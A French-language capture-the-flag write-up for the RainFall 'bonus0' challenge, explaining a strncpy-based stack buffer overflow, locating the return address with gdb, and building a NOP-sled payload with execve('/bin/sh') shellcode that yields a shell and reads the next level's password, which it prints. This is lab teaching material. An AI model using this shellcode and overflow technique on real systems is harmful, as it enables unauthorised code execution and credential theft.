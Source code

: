# bonus0

On a un exécutable un peu plus complexe que les précédents, le main appelle la fonction `pp()` qui va appeler `p()` 2 fois puis concaténer les 2 inputs.
`p()` va attendre un input, puis copier son contenu dans char * passé en paramètre. La copie se fait avec `strncpy` , on voit dans le man que si la chaine copiée est plus longue ou de longueur égale au paramètre passé, elle ne sera pas nul-terminée. Dans ce cas, on se retrouvera donc avec le buffer du 2ème input qui sera collé au premier:

```sh
bonus0@RainFall:~$ ./bonus0 
 - 
01234567890123456798
 - 
abcdef
01234567890123456798abcdef abcdef
```

On remarque que le programme crash si le premier argument est >= à 20 ET que le 2ème argument respecte la même condition, probablement car dans ce cas, on dépasse la capacité du buffer du main une fois que les 2 input ont été concaténés

En utilisant l'offset finder, on voit que `eip` se trouve à 9 adresses du début du second buffer dans le cas ou le premier n'est pas nul-terminé
```sh
(gdb) r
Starting program: /home/user/bonus0/bonus0 
 - 
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
 - 
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
aaaaaaaaaaaaaaaaaaaaAa0Aa1Aa2Aa3Aa4Aa5Aa��� Aa0Aa1Aa2Aa3Aa4Aa5Aa���

Program received signal SIGSEGV, Segmentation fault.
0x41336141 in ?? ()
```

L'idée va donc être de remplacer `eip` par l'adresse du premier buffer qui contiendra notre shellcode

On doit donc trouver l'adresse du premier buffer à l'aide de gdb, on commence par trouver l'instruction dans laquelle le buffer est passé en argument à `read`

```assembly
(gdb) disas p
Dump of assembler code for function p:
   0x080484b4 <+0>:    push   %ebp
   0x080484b5 <+1>:    mov    %esp,%ebp
   0x080484b7 <+3>:    sub    $0x1018,%esp
   0x080484bd <+9>:    mov    0xc(%ebp),%eax
   0x080484c0 <+12>:    mov    %eax,(%esp)
   0x080484c3 <+15>:    call   0x80483b0 <puts@plt>
   0x080484c8 <+20>:    movl   $0x1000,0x8(%esp)
   0x080484d0 <+28>:    lea    -0x1008(%ebp),%eax  ;<----- ici
```

On met donc un breakpoint à cette instruction, puis on va récupérer la valeur du registre `ebp-0x1008`

```sh
(gdb) b *p+28
Breakpoint 1 at 0x80484d0
(gdb) r
Starting program: /home/user/bonus0/bonus0 
 - 

Breakpoint 1, 0x080484d0 in p ()
(gdb) x $ebp-0x1008
0xbfffe680:    0x00000000
```

On connait donc désormais l'adresse du 1er buffer (`0xbfffe680`), et l'offset de `eip` dans le second buffer, on peut donc commencer à créer notre payload

Le contenu de notre payload sera le suivant:

```
     [               arg 1        ][                              arg 2                                    ]
     |            shellcode             offset (9x "A")  +   adresse du premier buffer  + padding (7x "A") |
     ^                                                                                                     ^
start address                                                                                          end address
```

```sh
echo $( perl -e 'print "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80";') > /tmp/first

echo $(perl -e 'print  "A"x9 . "\x80\xe6\xff\xbf" . "A"x7;') > /tmp/second
```

```sh
bonus0@RainFall:~$ cat /tmp/second - | cat /tmp/first - | ./bonus0 
 - 
 - 
j
 X�Rh//shh/bin��1��AAAAAAAAA����AAAAAAA��� AAAAAAAAA����AAAAAAA���

a
Illegal instruction (core dumped)
```
En essayant ce payload, on voit qu'on se retrouve dans un prompt, puis, en entrant un input, le program crash avec l'erreur illegal instruction

On en a déduit que le shellcode ne devrait probablement pas se trouver dans la partie du buffer qui est affichée. Vu qu'on connait l'adresse du buffer qui contient le read, on peut mettre le shellcode plus loin dans ce buffer en remplissant les 100 premiers bytes (nombre arbitraire), de NOP

```sh
echo $( perl -e 'print "\x90"x100 . "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80";') > /tmp/first

echo $(perl -e 'print  "A"x9 . "\xe4\xe6\xff\xbf" . "A"x7;') > /tmp/second
```

notre overwrite de eip pointe désormais vers 0xBFFFE6E4 qui est l'adresse a 100 bytes de 0xbfffe680

```sh
bonus0@RainFall:~$ cat /tmp/second - | cat /tmp/first - | ./bonus0 
 - 
 - 
��������������������AAAAAAAAA����AAAAAAA��� AAAAAAAAA����AAAAAAA���
whoami
bonus1
cat /home/user/bonus1/.pass
cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9
```

